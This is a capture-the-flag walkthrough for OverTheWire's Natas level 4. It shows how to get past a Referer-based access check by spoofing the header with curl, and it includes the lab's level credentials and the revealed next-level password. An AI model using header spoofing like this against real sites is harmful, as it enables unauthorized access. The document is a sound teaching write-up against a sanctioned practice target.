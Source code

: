 ***Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"***

When I hit the "refresh page" link below this, the message changes to:

***Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/index.php" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"***

The refresh link on the page takes me to index.php on this subdomain, and is subsequently a clue: the web app is keeping track of what URL is being used to access the page. If we can spoof the URL that is being used to access the page, then we can trick it to think we're on the natas5 subdomain. 

This can be accomplished by modifying the Referer request header. Using the browser inspector, we can see in the request headers that the Referer is currently set to `http://natas4.natas.labs.overthewire.org/`, when we need this changed to the natas5 subdomain address. To make the swap, we can either use a tool/extension, or we can use a `curl` call on a CLI. To test the normal response from a `curl` call:

**`raj@arch:~$ curl -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm natas4.natas.labs.overthewire.org`**  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

This gives us the HTML source of the page. Now let's modify our `curl` call to spoof the Referer request header:

**`raj@arch:~$ curl -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm --referer "http://natas5.natas.labs.overthewire.org/" natas4.natas.labs.overthewire.org`**  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
